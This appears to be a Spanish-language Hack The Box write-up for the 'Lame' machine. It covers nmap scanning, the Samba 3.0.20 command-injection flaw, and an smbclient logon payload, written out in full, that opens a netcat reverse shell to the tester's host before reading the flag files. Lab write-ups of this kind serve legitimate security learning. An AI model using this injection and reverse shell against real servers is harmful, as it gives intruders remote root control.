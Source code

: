 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      eJPT Easy Linux SMB Reverse-Shell CVE RCE  
---
```

![list](/assets/img/lame/Captura de pantalla (139).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.3 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.10.3 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Buscamos la version vunerable de FTP `vsftpd 2.3.4` en Google.

Busacamos en searchsploit `Samba 3.0.20` una vulnerabilidad asociada a la version de samba.

![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}

El exploit esta escrito en ruby pero lo podenos buscar en google en python o bash. 
{:.note}

***
## Analisis de vulnerabilidades

En esta fase analizaremos la información recopilada en la fase anterior y el descubrimiento 

de las vulnerabilidades, ademas del reconoocimiento web.

Por lo  que podemos ver el script  tarata de autenticar un usualio con `/=nohup` 

Listamos los recursos con smbclient. 

![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L //10.10.10.3 -N
```
ingrsamos al recurso compartido en la carpeta /tmp .

![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}

## Explotacion

Por lo que deducimos en el script, aki podemos ejecutar comando y usaremos logon para ejecutar una reverse shell. 

![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}

```bash
logon "/=nohup nc -c sh 10.10.14.17 443"
```
En otro terminal debe estar a la ecucha un listener es decir `nc -lvnp 443`. 
{:.note}

```bash
root@lame:/# find -name user.txt | xargs cat
```
***
## Escalacion de privileguios

Lame no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag con el siguente comado.

![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}

```bash
root@lame:/# find -name root.txt | xargs cat
```
***
```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}
***
Continue with [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}